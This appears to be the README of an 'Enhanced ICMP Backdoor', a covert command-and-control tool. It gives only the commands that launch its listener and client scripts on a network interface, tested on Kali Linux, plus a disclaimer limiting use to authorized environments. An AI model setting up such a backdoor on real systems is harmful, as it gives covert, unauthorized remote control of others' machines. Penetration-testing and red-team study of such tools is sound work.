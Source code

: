 <h1> Enhanced ICMP Backdoor </h1>

# Usage

- On server (listener)
<code>sudo python3 icmp_cnc.py -i eth0</code>

- On client
<code>sudo python3 icmp_client.py -i eth0 -d 10.10.10.10</code>

Tested on Kali Linux but should be compatible with almost everything.

Thanks to krabelize for the idea.
The code is "as-is", anything you do with it is your responsibility. Use it only in authorized environments. I take no credit for whatever illegal shit you do with it. Love ♥
